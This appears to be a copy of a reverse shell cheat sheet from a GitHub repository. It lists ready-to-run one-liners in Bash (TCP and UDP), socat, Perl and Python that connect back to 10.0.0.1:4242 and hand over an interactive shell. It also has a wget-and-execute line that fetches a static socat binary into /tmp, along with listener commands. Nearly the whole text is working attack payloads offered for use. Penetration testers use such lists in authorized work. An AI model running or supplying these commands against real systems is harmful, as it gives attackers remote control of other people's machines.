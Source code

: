 # Reverse Shell Cheatsheet

# Summary

## Reverse Shell

### Bash TCP

    bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
    
    0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

### Bash UDP

    Victim:
    sh -i >& /dev/udp/10.0.0.1/4242 0>&1
    
    Listener:
    nc -u -lvp 4242

### Socat

    user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
    user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242

    user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242

Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

### Perl

    perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    
    perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
    
    
    NOTE: Windows only
    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

### Python

Linux only

IPv4

    export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
